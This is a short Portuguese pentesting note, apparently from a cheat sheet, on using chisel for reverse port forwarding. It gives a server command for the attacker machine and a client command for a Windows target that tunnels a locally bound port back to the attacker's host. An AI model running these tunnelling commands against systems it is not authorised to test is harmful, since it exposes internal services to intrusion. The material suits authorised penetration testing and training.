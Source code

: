 Encaminhamento de porta pode ser utilizado para acessar da máquina atacante, uma porta aberta localmente no alvo.

Na maquina atacante:
```bash
# Iniciando o chisel e indicando a porta que receberá a conexão
chisel server -p 9999 --reverse
```

No alvo (Windows):
Link para download: https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_windows_amd64.gz

```powershell
# Sobe o executável para a máquina alvo
chisel.exe client <LHOST>:9999 R:<RPORT>:127.0.0.1:<RPORT>
```